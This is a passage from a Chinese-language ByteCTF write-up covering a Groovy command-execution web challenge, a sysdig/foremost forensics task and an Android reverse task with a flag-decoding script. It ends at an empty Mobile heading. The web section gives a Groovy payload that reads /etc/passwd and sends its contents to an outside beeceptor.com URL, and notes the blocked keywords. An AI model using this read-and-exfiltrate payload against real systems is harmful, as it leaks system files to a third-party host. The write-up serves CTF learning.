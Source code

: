 考点：**web题，命令执行。**

**groovy语言**，一开始测试发现ban了好多东西。

```php
execute  
class  
run
```

但是最后测试了一下可以读文件，还能发送http请求。于是可以将文件内容带外出来，直接读取然后找个网站带外读取回显即可

```php
def  file \= new File("/etc/passwd")  
def arr \= file as String\[\]  
def res1 \= new URL('https://asdwww.free.beeceptor.com?a=' + arr\[0\]).text
```

**find it**
-----------

给了个scap文件,sysdig可以恢复为可读日志文件

`sysdig \-r filename &gt;find.log`

发现是用了openssl来加密Nothing文件，但sysdig记录了所有系统调用的信息，包括`read`加密前的源文件，直接

`foremost find.scap`

可以获得二维码，扫码得到前半部分，后半部分直接在log里面搜索`}`，或者正则匹配十六进制字符 + `}`即可

0x03 Reverse
============

**It is android**
-----------------

关键逻辑都在**native**层，里面手搓了一个ELF解释器来获取libc导出的`malloc`函数，然后分配空间，修改内存属性往里写了**SMC**.  
简单的异或解密得到代码，纯纯的字符串比较。

```php
from libnum import n2s  
v0 = 0x473D293F ^ 0x710D4C0B  
v1 = 0x2A189108 ^ 522822193  
v = \[v0, v1\]+\[1681405286, 909141605, 1633772134, 1647392354\]  
​  
print("ByteCTF{", end\='')  
for i in v:  
    print(n2s(i).decode(), end\='')  
print("}")
```

0x04 Mobile
===========

**Bronze Droid**
----------------

### 参考

